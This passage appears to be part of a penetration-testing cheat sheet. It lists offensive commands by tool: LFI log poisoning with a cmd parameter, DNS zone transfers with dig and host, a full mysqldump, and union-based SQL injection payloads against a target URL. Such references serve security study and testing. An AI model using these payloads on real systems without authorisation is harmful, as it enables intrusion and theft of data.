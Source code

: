 ### Afterwards include the it via lfi
- `?lfi_file=/var/log/apache2/access.log&cmd=<command>`

---

# dig
- service: dns
- tactics: enumeration

## full zone transfer
- `dig -t AXFR target-dns-ip`

---

# host
- service: dns
- tactics: enumeration

## full zone transfer
- `host -l target-dns-ip`

---

# mysqldump
- service: sql
- tactics: initial_access

## backup all mysql databases
- `mysqldump -u username -ppassword --all-databases --single-transaction`

---

# sqli
- service: sql
- service: http
- tactics: inital_access

## check if you can find a row, where you can place your output  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

## get the version of the database  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,@@version,5`
